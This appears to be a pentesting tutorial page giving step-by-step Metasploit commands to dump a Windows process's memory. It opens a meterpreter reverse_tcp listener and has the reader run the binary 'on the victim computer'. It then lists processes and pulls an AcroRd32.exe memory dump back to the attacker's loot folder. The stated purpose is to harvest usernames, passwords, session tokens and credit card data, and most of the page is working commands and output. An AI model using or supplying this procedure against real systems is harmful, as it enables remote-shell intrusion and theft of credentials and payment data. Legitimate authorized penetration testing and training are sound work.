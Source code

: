 ```yaml
---
title: Process Memory Dump
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 5
---
```



# Process Memory Dump

## Introduction

Metasploit contains a post exploitation module to dump the memory of a process. This is normally used to gather information such as usernames and passwords, session tokens, and credit card data.

## Step-by-Step Guide

### 1. Create the meterpreter binary
    
How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### 2. Open Metasploit Console

```bash
msfconsole
```

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100
meterpreter > 
```

### 3. Execute your meterpreter binary on the victim computer


### 4. Check for target process to dump (e.g. AcroRd32.exe)

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 236   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 312   296   csrss.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 316   452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 360   296   wininit.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 368   352   csrss.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 396   352   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 452   360   services.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 468   360   lsass.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 476   360   lsm.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 564   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 648   452   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 720   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 792   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 820   452   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 996   452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1036  452   spoolsv.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1064  452   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1212  1724  AcroRd32.exe       x86   1        WIN7-1\win7                   C:\Program Files (x86)\Adobe\Reader
                                                                             9.0\Reader\AcroRd32.exe
...
```

### 5. Use 'post/windows/gather/memory_dump' module to dump the process memory.

Command: *run post/windows/gather/memory_dump PID=\<Process PID\>*

```bash
meterpreter > run post/windows/gather/memory_dump PID=1212

[*] Running module against WIN7-1 (192.168.0.166)
[*] Dumping memory for AcroRd32.exe (pid: 1212) to C:\Users\win7\AppData\Local\Temp\bfleZlzWhtk
[*] Downloading minidump (8.50 MiB)
[+] Memory dump stored at /root/.msf4/loot/20240131125804_default_192.168.0.166_windows.process._803063.bin
[*] Deleting minidump from disk
```
The dump file is automatically saved and trasferred to */root/.msf4/loot/* directory.

## Video Demonstration

[<img src="https://img.youtube.com/vi/j62jKn1Q60k/hqdefault.jpg"
/>](https://www.youtube.com/embed/j62jKn1Q60k)

## Reference
https://www.infosecmatter.com/metasploit-module-library/?mm=post/windows/gather/memory_dump
